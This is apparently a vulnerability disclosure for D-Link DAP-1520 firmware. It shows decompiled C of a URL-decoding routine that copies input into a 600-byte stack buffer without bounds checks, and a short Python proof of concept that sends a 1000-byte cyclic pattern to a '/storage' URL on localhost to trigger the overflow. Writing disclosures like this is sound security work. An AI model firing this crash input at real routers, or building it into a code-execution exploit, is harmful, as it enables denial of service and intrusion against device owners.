





## Overview

| Firmware Name | Firmware Version | Download Link                                                |
| ------------- | ---------------- | ------------------------------------------------------------ |
| DAP-1520      | 1.10B04_BETA02   | http://legacyfiles.us.dlink.com/DAP-1520/REVA/FIRMWARE/DAP-1520_REVA_FIRMWARE_1.10B04_BETA02_HOTFIX.zip |

## Vulnerability Trigger Location




## Vulnerability  Analysis



first,the url must include "/storage"

then call the function named  replace_special_char .

```c
int __fastcall replace_special_char(int a1)
{
  int v2; // $s4
  int result; // $v0
  int v4; // $fp
  int v5; // $s6
  int v6; // $s3
  int v7; // $s5
  int v8; // $s0
  char v9; // $a0
  char **v10; // $s2
  int v11; // $a3
  int v12; // $s1
  char v14[600]; // [sp+18h] [-260h] BYREF   #####the pointer points to v14 which is of size 600.
  __int16 v15; // [sp+270h] [-8h] BYREF
  char v16; // [sp+272h] [-6h]

  v2 = strlen();
  result = memset(v14, 0, sizeof(v14));
  v4 = 0;
  v5 = 0;
  v6 = 0;
  v7 = 0;
  if ( v2 > 0 )
  {
    do
    {
      v8 = a1 + v6;
      v9 = *(_BYTE *)(a1 + v6);
      v15 = 0;
      v16 = 0;
      ++v5;
      if ( v9 == 37 )
      {
        v10 = encoding_code;
        sprintf(&v15, "%c%c", *(char *)(v8 + 1), *(char *)(v8 + 2));
        v12 = 0;
        while ( strncmp(v8 + 1, *v10++, 2, v11) )
        {
          if ( ++v12 >= 25 )
            goto LABEL_8;
        }
        v6 += 2;
        v4 = 1;
        v14[v7] = encoding_char[v12];
      }
      else
      {
        v14[v7] = v9;
      }
LABEL_8:
      result = ++v6 < v2;
      ++v7;
    }
    while ( v6 < v2 );
    if ( v4 )
    {
      memset(a1, 0, v2);
      return memcpy(a1, v14, v5);
    }
  }
  return result;
}
```

in the do while loop ,if we input more than 600 byte string ,it will be overflow.





## poc

python3 script

```py
import requests

from pwn import *
url = f"http://127.0.0.1:80/storagein.pd-XXXXXX?sesslogin.ph{cyclic(1000).decode('utf-8')}"
headers = {
    "Accept-Eing": "",
    "Host": "127.0.0.1"
}

try:
    response = requests.get(url, headers=headers)
    print(f"Status Code: {response.status_code}")
    print(f"Response Content: {response.text}")
except requests.exceptions.RequestException as e:
    print(f"An error occurred: {e}")
```

## Vulnerability Verification Screenshot



